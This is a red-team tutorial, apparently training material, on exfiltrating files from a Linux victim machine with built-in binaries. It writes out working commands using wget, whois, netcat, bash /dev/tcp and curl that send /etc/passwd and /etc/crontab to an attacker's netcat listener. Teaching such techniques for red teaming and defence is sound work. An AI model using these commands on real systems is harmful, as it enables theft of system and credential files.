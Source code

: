 :orphan:
(data-exfiltration-with-the-help-of-linux-binaries)=

# Data Exfiltration with the Help of Linux Binaries

Data exfiltration is theft or unauthorized removal or movement of data from a device. Data exfiltration is a means of bypassing security and gaining unauthorized access to data on a user's system or a server. Attackers gain unauthorized access to critical data and sneakily make a copy of it. Data exfiltration can be carried out in a variety of ways, with the primary goal of stealing data.

Linux binaries are file on a Linux system that isn't a text file, which includes everything from system commands and libraries to image files and compiled programs. `/bin` directory contains binaries for all the users and it also has executable files, and Linux commands such as cat, cp, ls, cd, etc.
For the demonstration purpose, we will use two systems to exfiltrate data, one posing as an attacker and the other as a victim.

## Wget

wget is a free application for non-interactively downloading files from a web server, even if the user is not logged in to the system.

Wget get can be used to upload a file and send it to the attacker machine over `HTTP POST`.
On the victim machine, send a local file with an `HTTP POST`.
`wget --post-file=<file-path-> <ip_address>`

![DE_1.png](images/DE_1.png)

On the attacker machine, to get the file, Netcat is used as a listener,
`nc -nlvp 80 `
`Note: to open up port 80 you would need higher privileges`

![DE_2.png](images/DE_2.png)

From the above screenshot, the data exfiltration was successful and the contents of the `/etc/crontab` can be seen on the attacker machine.

## Whois

Whois is the request and response protocol that is commonly used for querying databases containing the registered users of an Internet resource such as domain name or IP address.
Whois binary can be used to upload a file and send it to the attacker's machine over a TCP connection.

On the victim machine, enter the file to upload, the victim's IP address, and the remote port for file transfer.

```
whois -h <remote_IP_address> -p <remote_port> `cat  /etc/passwd`
-h connect to server
-p connect to port
```

![DE_3.png](images/DE_3.png)

On the attacker machine, to get the file, Netcat is used as a listener,
`nc -nlvp 1337 `

![DE_4.png](images/DE_4.png)

Data exfiltration is successful, the contents of the file /etc/passwd with all the users can be seen on the attacker's machine

## Netcat

netcat is a computer networking program that allows you to read and write to network connections through TCP or UDP.

On the victim’s machine set up the netcat by specifying the IP address and port and file to be sent.
`Nc -N <IP_address> < <file path >`

![DE_5.png](images/DE_5.png)

On the attacker's machine set up the netcat to listen for the file by specifying the port to listen on.

`Nc -lvp 1337 > <file_to_be_sent>`

![DE_6.png](images/DE_6.png)

## Bash

It is a command language and Unix shell. bash binary can be used to upload files invisibly and deliver the file to the attacker system via `HTTP POST`.

On the victim machine, the following `bash -c` command can be used for data exfiltration.
`bash -c 'echo -e "POST / HTTP/0.9\n\n$(</etc/passwd)" > /dev/tcp/<listener_IP>/<listener_port>’`

![DE_7.png](images/DE_7.png)

On the attacker machine, parrot Linux is used that uses netcat for listening for the connection.

![DE_8.png](images/DE_8.png)

From the above screenshot, the data exfiltration was successful and the contents of the `/etc/passwd` can be seen on the attacker machine.

## Curl

curl is a command-line utility that allows data to be transferred across many network protocols. The curl binary can be used to upload a file and deliver it to the attacker's system over an `HTTP POST` connection.
On the victim machine, the following curl command can be used to exfiltrate the data.

```
curl -F 'file=@/etc/passwd' http://<attacker_ip:attacker_port>/

curl -F is an argument that allows binary file uploading and forces the content type to be a multipart message.
```

![DE_9.png](images/DE_9.png)

On the attacker machine, parrot Linux is used that uses netcat for listening for the connection on port 80.

![DE_10.png](images/DE_10.png)

From the above screenshot, the data exfiltration was successful and the contents of the `/etc/crontab` can be seen on the attacker machine.

## Conclusion:

Data exfiltration is a key step for a red teamer or attacker, and knowing how to use Linux binaries for data exfiltration can enable you transfer data with less possibility of discovery and without the need to install any external tools for data exfiltration.

:::{seealso}
Looking to expand your knowledge of red teaming? Check out our online course, [MRT - Certified Red Teamer](https://www.mosse-institute.com/certifications/mrt-certified-red-teamer.html) In this course, you'll learn about the different aspects of red teaming and how to put them into practice.
:::

